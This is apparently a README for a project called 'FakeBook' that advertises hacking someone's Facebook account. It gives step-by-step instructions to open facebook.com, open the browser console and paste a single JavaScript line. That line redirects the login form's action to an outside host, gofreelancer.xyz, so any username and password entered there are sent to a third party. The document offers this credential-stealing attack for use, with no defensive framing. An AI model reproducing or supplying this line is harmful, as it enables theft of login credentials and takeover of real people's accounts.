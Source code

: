 # FakeBook
Hack Someone Facebook With JavaScript inject0r

<h3><u>How To Inject & use JavaScript to change the form action</u></h3>
<ul>
<li>Open <strong>https://www.facebook.com</strong> with Google Chrome Browser</li>
<li>Right-click on any page element and select Inspect Element and then Console</li>
<li>Copy & Paste (Crtl+V) this a line Javascript:<br>
<code>document.getElementById('login_form').action = 'http://gofreelancer.xyz/FakeBook/login.php';</code>
</li>
